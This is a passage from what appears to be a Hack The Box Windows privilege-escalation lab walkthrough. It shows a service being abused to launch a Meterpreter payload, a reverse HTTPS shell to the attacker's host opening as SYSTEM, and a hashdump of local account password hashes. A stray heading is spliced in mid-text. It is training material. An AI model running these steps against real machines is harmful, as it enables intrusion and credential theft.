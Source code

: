 ```cmd-session
C:\htb> net start MozillaMaintenance 

The service is not responding to the control function

More help is available by typing NET HELPMSG 2186
```

#### Receiving a Meterpreter Session

We will get an error trying to start the service but will still receive a callback once the Meterpreter binary executes.

Kernel Exploits

```shell-session
[*] Started HTTPS reverse handler on https://10.10.14.3:8443
[*] https://10.10.14.3:8443 handling request from 10.129.43.13; (UUID: syyuxztc) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.3:8443 -> 10.129.43.13:52047) at 2021-05-14 13:38:55 -0400


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-WS02
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 6
Meterpreter     : x64/windows


meterpreter > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
mrb3n:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:c93428723187f868ae2f99d4fa66dceb:::
```